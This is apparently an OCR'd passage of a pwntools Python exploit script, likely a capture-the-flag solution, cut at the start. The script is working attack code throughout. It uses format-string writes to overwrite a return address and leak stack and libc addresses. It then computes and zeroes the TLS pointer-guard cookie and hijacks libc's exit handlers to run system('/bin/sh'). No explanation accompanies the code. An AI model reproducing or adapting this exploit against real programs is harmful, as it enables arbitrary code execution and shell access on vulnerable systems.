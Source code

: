 ```python
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def write2bytes(target, value):
    ru("0x")
    stack = int(r(12),16)
    ret = stack - 0x18 # Updating next ret
    offset = 8
    payload = f"%{0x7a}c%{offset+4}$hhn%{(u16(value) + 0xff86) & 0xffff}c%{offset+5}$hn".encode().ljust(0x20, b"\x00") + p64(ret) + p64(target)
    sl(payload)

def write(target, value):
    for i in range(0, len(value), 2):
        write2bytes(target + i, value[i:i+2])

def exploit():
    global io
    io = initialize()
    offset = 8
    with log.progress("Overwrite ret to main + 1 and leak libc"), context.silent:
        stack = int(r(14),16)
        ret = stack - 0x18
        sl(f"%{0x7a}c%{offset+3}$hhn.%1$p".encode().ljust(24, b"\x00") + p64(ret)) #Overwrite
        ru("0x")

    leak("Stack", hex(stack))
    leak("Return Address", hex(ret))
    with log.progress("Calculating the libc and tls"), context.silent:
        libc_leak = int(r(12),16)
        libc.address = libc_leak - (libc.sym["_IO_2_1_stdin_"] +0x83)
        if args.DOCKER or args.REMOTE:
            tls = libc.address - 0x3000
        else:
            tls = libc.address + 0x30d000
        cookie = tls + 0x770

    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    leak("tls", hex(tls))
    leak("cookie", hex(cookie))

    with log.progress("Overwrite cookie and initial + 24 to hijack exit"), context.silent:
        write(cookie, p64(0))
        write(libc.sym["initial"]+24, p64(libc.sym["system"] << 17) + p64(ns(libc, b"/bin/sh\0")))
```